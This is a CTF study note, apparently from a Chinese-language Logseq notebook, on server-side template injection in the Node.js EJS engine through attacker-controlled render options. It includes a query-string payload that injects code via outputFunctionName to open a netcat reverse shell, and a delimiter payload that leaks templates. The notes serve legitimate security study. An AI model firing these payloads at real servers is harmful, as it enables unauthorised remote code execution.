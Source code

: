 alias:: EJS

- # SSTI
	- [[CTFWEB/SSTI/EJS]]
- # 原型链污染
	- [[CTFWEB/JS/EJS的原型链污染]]
	- [[CTFWEB/WP/CTFShow/web341]]
- # render函数传递参数导致的问题
  id:: 64d7a180-ce15-46d7-b3c5-9ae47612b34e
	- 参考
		- https://eslam.io/posts/ejs-server-side-template-injection-rce/
			- 虽然文章说只对旧版有效，但是不知道为什么``ejs@3.1.9``仍然可以使用这个漏洞实现模板泄漏
		- https://www.npmjs.com/package/ejs
			- 其中有delimiter等options的定义
	- 原理
		- 如果有形似`res.render('views/page.ejs', req.query);`的渲染方法，我们可以通过在req.query中传递恶意参数来控制ejs的渲染结果，实现RCE
		- `ejs.renderFile`会在`data`对象中看到我们的query, 然后其会根据`data.settings['view options']`拿出viewOpt合并到渲染选项中，所以我们提供viewOpt即可自定义渲染选项
	- 注意
		- 第一个参数为文件名时，express会控制ejs缓存渲染结果，所以需要在文件产生后立马发送payload，不能在访问路径，已经渲染了模板之后再发送payload
	- payload
		- RCE
			- 新版ejs会使用正则`/^[a-zA-Z_$][0-9a-zA-Z_$]*$/`检查`outputFunctionName`是否合法，不能使用这个payload
			- ```text
			  settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 查看模板
			- ```text
			  settings[view+options][delimiter]=nope114514
			  ```
-